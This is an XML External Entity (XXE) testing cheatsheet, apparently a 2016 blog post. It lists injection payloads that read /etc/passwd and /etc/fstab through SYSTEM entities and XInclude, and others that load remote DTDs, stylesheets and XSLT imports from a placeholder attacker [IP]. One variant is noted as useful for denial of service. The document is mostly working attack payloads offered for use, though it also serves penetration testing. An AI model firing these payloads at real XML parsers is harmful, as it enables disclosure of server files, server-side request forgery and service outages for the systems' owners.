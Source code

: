 ```yaml
---
title: XML Entity cheatsheet
date: 2016-03-12 01:28:24
tags: XXE
---
```

XML Entity Cheatsheet - Updated An XML Entity testing cheatsheet. This is an updated version with nokogiri tests removed, just (X)XE notes.

XML Headers:

```
<?xml version="1.0" standalone="no"?>
<?xml version="1.0" standalone="yes"?>
```
Vanilla entity test:
```
<!DOCTYPE root [<!ENTITY post "1">]><root>&post;</root>
```

SYSTEM entity test (xxe):


```
<!DOCTYPE root [<!ENTITY post SYSTEM "file:///etc/passwd">]>
```

Parameter Entity. One of the benefits is a paremeter entity is automatically expanded inside the DOCTYPE:

```
<!DOCTYPE root [<!ENTITY % dtd SYSTEM "http://[IP]/some.dtd">%dtd]>
```

<!--more-->

Should be illegal per XML specs but I've seen it work, also useful for DoS:

```
<!DOCTYPE root [<!ENTITY % dtd SYSTEM "http://[IP]/some.dtd"><!ENTITY % a "test %dtd">]>
```

Combined Entity and Parameter Entity:

```
<!DOCTYPE root [<!ENTITY post SYSTEM "http://"><!ENTITY % dtd SYSTEM "http://[IP]/some.dtd"><!ENTITY % a "test %dtd">]><root>&post;</root>
```

URL handler. This follows XML Entity - IBM (Broken) I have not used this but Public DTD works just as well:

```
<!DOCTYPE root [<!ENTITY c PUBLIC "-//W3C//TEXT copyright//EN" "http://[IP]/copyright.xml">]>
```

XML Schema Inline:

```
<madeuptag xlmns="http://[ip]" xsi:schemaLocation="http://[IP]">
</madeuptag>
```

Remote Public DTD, from oxml_xxe payloads:

```
<!DOCTYPE roottag PUBLIC "-//OXML/XXE/EN" "http://[IP]">
```

External XML Stylesheet, from [Burp Suite Release Notes](http://releases.portswigger.net/2015/08/1625.html):

```
<?xml-stylesheet type="text/xml" href="http://[IP]"?>
```

XInclude:

```
<document xmlns:xi="http://<IP>/XInclude"><footer><xi:include href="title.xml"/></footer></document>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include href="file:///etc/fstab" parse="text"/>
```

Inline XSLT:

```
<?xml-stylesheet type="text/xml" href="#mytest"?>
<xsl:stylesheet id="mytest" version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:fo="http://www.w3.org/1999/XSL/Format">
<!-- replace with your XSLT attacks -->
<xsl:import href="http://[ip]"/>
<xsl:template match="id('boom')">
  <fo:block font-weight="bold"><xsl:apply-templates/></fo:block>
</xsl:template>
</xsl:stylesheet>
```
